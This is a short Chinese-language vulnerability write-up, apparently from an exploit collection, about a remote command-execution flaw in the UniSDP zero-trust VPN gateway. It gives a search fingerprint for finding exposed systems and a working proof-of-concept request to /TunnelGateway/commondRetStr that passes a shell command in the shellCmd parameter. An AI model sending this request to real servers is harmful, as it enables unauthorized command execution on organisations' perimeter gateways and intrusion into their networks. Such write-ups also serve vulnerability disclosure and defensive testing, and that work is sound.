 # 联软安界 UniSDP 软件定义边界系统 commondRetSt 命令执行漏洞

## 漏洞描述

联软安界UniSDP软件定义边界系统是基于零信任的下一代VPN，该系统2021.04.28版本中TunnelGateway某接口存在安全漏洞，漏洞允许攻击者将特制请求发送到服务器并远程命令执行。

## 漏洞影响

<a-checkbox checked>联软安界 UniSDP 软件定义边界系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="UniSSOView"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1658977938174-b661802b-b5c7-434b-a5e7-6f51afb02db1-20230311204818783.png)

验证POC

```php
POST /TunnelGateway/commondRetStr
  
shellCmd=id
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1658978044203-53489913-e30b-474a-accf-09c74a9189b7.png)